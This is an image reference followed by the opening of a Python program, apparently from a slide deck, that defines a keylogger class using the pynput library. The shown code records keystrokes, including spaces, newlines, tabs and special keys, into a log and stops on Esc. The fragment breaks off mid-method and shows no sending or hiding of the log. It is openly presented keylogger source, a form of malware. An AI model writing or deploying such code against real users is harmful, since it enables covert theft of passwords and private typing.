

# PROGRAM
import json
import pynput.keyboard
import threading

class Keylogger:
    def __init__(self):
        self.log = []
        self.stop_keylogger = False

    def append_to_keylog(self, string):
        self.log.append(string)

    def on_press(self, key):
        current_key = ''
        try:
            current_key += str(key.char)
        except AttributeError:
            if key == pynput.keyboard.Key.esc:
                return False
            elif key == pynput.keyboard.Key.space:
                current_key += ' '
            elif key == pynput.keyboard.Key.enter:
                current_key += '\n'
            elif key == pynput.keyboard.Key.backspace:
                current_key = current_key[:-1]
            elif key == pynput.keyboard.Key.tab:
                current_key += '\t'
            elif key == pynput.keyboard.Key.shift_l or key == pynput.keyboard.Key.shift_r:
                pass
            else:
                current_key += ' ' + str(key)